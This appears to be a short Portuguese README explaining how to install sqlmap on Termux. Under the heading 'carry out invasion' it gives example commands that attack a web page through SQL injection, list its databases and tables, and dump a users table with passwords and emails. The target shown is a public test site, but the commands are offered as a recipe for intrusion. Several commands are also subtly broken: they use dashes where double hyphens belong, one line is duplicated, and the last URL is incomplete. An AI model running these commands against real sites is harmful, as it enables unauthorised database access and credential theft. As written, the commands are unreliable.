 # sqlmap-termux
##
ATUALIZE SEU REPOSITORIO.
##
$ pkg update && pkg upgrade -y 
##
INSTALE OS SEGUINTES PACOTES:
##
$ pkg install python 
$ pkg install python2
$ pkg install git 
##
BAIXE O SCRIPT 
##
$ git clone https://github.com/sqlmapproject/sqlmap
##
ESCOLHA O DIRETÓRIO DO SQL:
##
$ cd sqlmap
##
COMANDO DE EXECUÇÃO PARA ABRIR O SQLMAP:
##
$ python2 sqlmap.py 
##
EFETUAR INVAÇÃO 
##
EX:

$ python2 sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs

$ python2 sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart –tables

$ python2 sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users –columns

$ python2 sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users –columns

$ python2 sqlmap.py -u http://testphp.vulnweb.com/listproducts.php? -D acuart -T users -C name,pass,uname,email –dump





